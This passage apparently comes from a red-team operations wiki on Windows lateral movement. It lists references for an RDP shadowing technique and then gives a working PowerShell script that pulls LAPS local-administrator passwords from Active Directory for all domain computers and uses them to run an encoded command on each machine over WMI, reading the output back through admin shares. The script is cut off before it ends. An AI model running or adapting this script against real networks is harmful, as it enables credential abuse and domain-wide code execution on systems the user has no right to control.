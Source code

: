 #### RpcShadow2

- [https://red.c3r3br4t3.com/red-team-operations/lateral-movement/shadowrdp](https://red.c3r3br4t3.com/red-team-operations/lateral-movement/shadowrdp)
- [https://github.com/c3r3br4t3/ShadowRDP](https://github.com/c3r3br4t3/ShadowRDP)
- [https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tsts/4c6481f4-a1cc-4c76-abc1-3ece834e6451](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tsts/4c6481f4-a1cc-4c76-abc1-3ece834e6451)
- [https://learn.microsoft.com/en-gb/windows/win32/api/rdpencomapi/nn-rdpencomapi-irdpsrapisharingsession](https://learn.microsoft.com/en-gb/windows/win32/api/rdpencomapi/nn-rdpencomapi-irdpsrapisharingsession)
- [http://www.rohitab.com/discuss/topic/41626-rdp-com-server-client/](http://www.rohitab.com/discuss/topic/41626-rdp-com-server-client/)




## Run on Domain Computers

* [How to Hack Like a Pornstar / Best hacking books for aspiring hackers - Real life hacking scenarios](https://www.sparcflow.com/best-hacking-books/)

An example PowerShell script to execute commands as a local admin on all domain computers pulling LAPS passwords automatically:

{% code title="ADComputersCmd.ps1" %}
```powershell
 # Save with Encoding "UTF-8 with BOM"

[System.Console]::OutputEncoding = [System.Text.Encoding]::UTF8
$ErrorActionPreference = "Stop"

$command = '[System.Console]::OutputEncoding = [System.Text.Encoding]::UTF8; '
$command += 'whoami > C:\Windows\Temp\whoami.txt 2>&1'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd | ? {$_.name -ne $(hostname)} | select name,ms-Mcs-AdmPwd | ForEach-Object {
	$comp = $_."name"
	$pass = $_."ms-Mcs-AdmPwd"

	if (Test-Connection -BufferSize 32 -Count 1 -ComputerName $comp -Quiet) {
		try {
			$cred = New-Object System.Management.Automation.PSCredential("$comp\administrator", $(ConvertTo-SecureString $pass -AsPlainText -Force))
			$proc = Invoke-WmiMethod Win32_Process -Name Create -ArgumentList ("powershell -enc $encodedCommand") -ComputerName $comp -Credential $cred

			do {
				Write-Host -ForegroundColor Green "[*] Waiting for script to finish on $comp"
				Start-Sleep -Seconds 2
			} until ((Get-WmiObject -Class Win32_Process -Filter "ProcessId=$proc.ProcessId" -ComputerName $comp -Credential $cred | where {$_.ProcessId -eq $proc.ProcessId}).ProcessId -eq $null)

			net use "\\$comp" /user:administrator $pass 2>&1 | Out-Null
			Get-Content "\\$comp\C$\Windows\Temp\whoami.txt"
			Remove-Item "\\$comp\C$\Windows\Temp\whoami.txt" -Force
			net use "\\$comp" /delete 2>&1 | Out-Null
		}
		catch {
			Write-Host -ForegroundColor Red "[-] Connection failure: $comp"
		}
	}
	else {
		Write-Host -ForegroundColor Yellow "[!] Connection timed out: $comp"
```
